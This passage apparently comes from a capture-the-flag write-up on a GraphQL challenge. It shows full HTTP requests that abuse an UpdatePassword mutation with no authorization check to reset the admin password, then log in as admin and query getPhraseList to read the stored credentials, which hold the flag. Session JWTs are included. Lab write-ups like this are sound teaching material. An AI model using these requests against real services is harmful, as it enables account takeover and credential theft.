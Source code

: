 We can see we need two parameters (username,password) which we can change every user's password without proper authorization.\
Here is the graphql query for updating admin's password (I built it based on login mutation which is similar to UpdatePassword)

```http
POST /graphql HTTP/1.1
Host: 138.68.162.218:32084
Content-Length: 191
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://138.68.162.218:32084
Referer: http://138.68.162.218:32084/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fa;q=0.8
Connection: close
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IjB4MTciLCJpc19hZG1pbiI6MCwiaWF0IjoxNjc5Nzk3MDQ0fQ.54ogANqo_0hbJBlo_RtgWQDOoUQ3qeRz7ayBqW4KosU

{
  "query": "mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }",
  "variables": {
    "username": "admin",
    "password": "1234"
  }
}
```

And here is the response:

```json
{
  "data": {
    "UpdatePassword": {
      "message": "Password updated successfully!",
      "token": null
    }
  }
}
```

It seems we changed admin's password, Let's check it\
Yes, we logged in as admin and now we can see admin's notes inside saved_password table which is actually the flag

```http
POST /graphql HTTP/1.1
Host: 138.68.162.218:32084
Content-Length: 84
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://138.68.162.218:32084
Referer: http://138.68.162.218:32084/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fa;q=0.8
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaXNfYWRtaW4iOjEsImlhdCI6MTY3OTc5ODMyOH0.uZ5Bqop3SSoHX4cgxHZn6kJLKXT3CX3d3wz9WLE4bRw
Connection: close

{
  "query": "{ getPhraseList { id, owner, type, address, username, password, note } }"
}
```